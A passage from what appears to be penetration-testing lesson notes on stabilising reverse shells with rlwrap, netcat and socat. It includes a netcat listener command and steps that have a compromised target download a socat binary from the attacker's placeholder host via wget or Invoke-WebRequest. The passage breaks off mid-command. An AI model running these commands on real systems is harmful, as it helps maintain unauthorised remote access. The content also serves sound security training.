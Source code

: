 Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). 


To fix this, type ```reset``` and press ```enter```.

---

### Technique 2: rlwrap
---

```rlwrap``` is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some ```manual stabilisation``` must still be utilised if you want to be able to use ```Ctrl + C``` inside the shell. 

rlwrap is not installed by default on Kali, so first install it with 
```
sudo apt install rlwrap.
```

To use rlwrap, we invoke a slightly different listener:
```
rlwrap nc -lvnp <port>
```
Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is ```particularly useful when dealing with Windows shells```, which are otherwise notoriously difficult to stabilise. 

When dealing with a ```Linux target```, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: 
```
background the shell with Ctrl + Z
```
then use 
```
stty raw -echo; fg 
```
to stabilise and re-enter the shell.

---

### Technique 3: Socat
---

The third easy way to stabilise a shell is quite simply to use an ```initial netcat shell``` as a stepping stone into a more fully-featured socat shell. Bear in mind that ```this technique is limited to Linux targets```, as a Socat shell on Windows will be no more stable than a netcat shell. 

To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. 

A typical way to achieve this would be 

- using a webserver on the attacking machine inside the directory containing your socat binary 
```
sudo python3 -m http.server 80
```
- Then, on the target machine, ```using the netcat shell to download the file```. On Linux this would be accomplished with ```curl or wget```
```
wget <LOCAL-IP>/socat -O /tmp/socat).
```
For the sake of completeness: 

In a ```Windows CLI``` environment the same can be done with Powershell, using either ```Invoke-WebRequest``` or a ```webrequest system class```, depending on the version of Powershell installed 
```
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile 